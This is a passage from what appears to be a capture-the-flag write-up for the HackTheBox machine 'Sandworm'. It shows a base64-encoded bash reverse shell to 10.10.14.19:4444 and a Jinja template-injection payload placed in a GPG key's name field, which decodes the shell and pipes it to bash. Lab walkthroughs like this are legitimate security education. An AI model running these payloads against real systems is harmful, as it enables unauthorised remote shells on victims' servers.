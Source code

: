 ```bash
=JPF0
-----END PGP MESSAGE-----
```

![id executed](/assets/images/2023/11/Sandworm/id.png "id executed")

I knew I could run commands on the server. I used that to get a reverse shell. I started by generating a base64 encoded reverse shell to make sure my payload did not have forbidden characters.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.19/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNDQ0NCAwPiYxICAK
```

Then I generated a new key, using the reverse shell code as the name.

```bash
$ gpg --full-generate-key
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

...

Real name: {% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNDQ0NCAwPiYxICAK|base64 -d | bash').read()}}{% endraw %}
Email address: test@test.com
```
